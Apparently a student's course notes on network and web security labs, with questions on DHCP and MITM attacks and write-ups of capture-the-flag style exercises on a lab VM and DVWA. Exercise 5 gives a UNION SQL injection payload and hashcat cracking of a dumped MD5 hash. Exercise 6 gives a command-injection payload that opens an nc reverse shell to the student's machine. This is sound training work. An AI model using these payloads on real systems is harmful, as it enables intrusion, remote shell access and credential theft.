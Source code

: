 
> [!exercise]+ Exercise 1 - DHCP Attack
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate? 
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


> [!exercise]+ Exercise 5
> When on the high-security setting of DVWA, go to the SQL injection section and attempt to exploit the vulnerability. A helpful hint is to examine the source code present on the page. Retrieve the hash associated with the user ‘1337’ and also convert the hash to its plaintext form. Explain the process of exploiting the vulnerability, identify the type of hash obtained, and describe the method used to convert the hash to plaintext.
> 
> **Answer:**
> 
> To address the challenge, I started by examining the PHP source code for the SQL Injection page, identifying that the query used session variables which incorporated user inputs directly into an SQL command. This setup was prone to SQL injection if the session variable could be manipulated.
> 
> Using the input:
> 
> ```
> a' UNION SELECT user, password FROM users -- -&Submit=Submit
> ```
> 
> I injected into the session variable to manipulate the SQL query. This injection effectively combined a falsified SQL command with the original, intended to pull user names and passwords directly from the database.
> 
> The output displayed the hash for user ‘1337’ as `8d3533d75ae2c3966d7e0d4fcc69216b`. From workshop 8, we know that these are md5 hashes WITHOUT salts, so we can now begin decrypting it to plain text.
> 
> - I've added an excerpt from workshop 5 to verify this
> ```
> passwords here are MD5 hashes, not plaintext passwords. But you can right away tell that the password for the user admin is the same as smithy, becuase their password hashes are identical (this is why password SALT is so important, as we will learn in later workshops).
> ```
> 
> Using the same hashcat method from assignment 1 with the `rockyou.txt` dictionary:
> 
> ```
> hashcat -m 500 -o out hash rockyou.txt --force
> ```
> 
> The wordlist used was a comprehensive compilation of known passwords, which aided in a successful brute-force attack, revealing that the plaintext form of the hash was `charley`.
> 
> To confirm the findings, I logged back into the DVWA using the credentials `1337` and `charley`, verifying that the password matched, thereby successfully exploiting the vulnerability and decrypting the hash.
> 
> This exercise illustrated the critical importance of sanitizing and validating all user inputs in web applications to prevent SQL injections and potential data breaches.


> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing tan input, I suspected a possible command injection vulnerability.
> 
> Before attempting to exploit the vulnerability, I set up a netcat listener on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> Crafting a malicious command, I entered:
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> 
> This command instructed the server to establish a reverse shell connection to my local machine on port 1234.
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> Upon successful exploitation of the vulnerability, I gained a reverse shell connection to the server.
> 
> Inside the reverse shell, I navigated the filesystem to locate the secret file. Initially, I used the `ls -a` command to list all files, including hidden ones, and discovered `.the_secret_file`.
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 

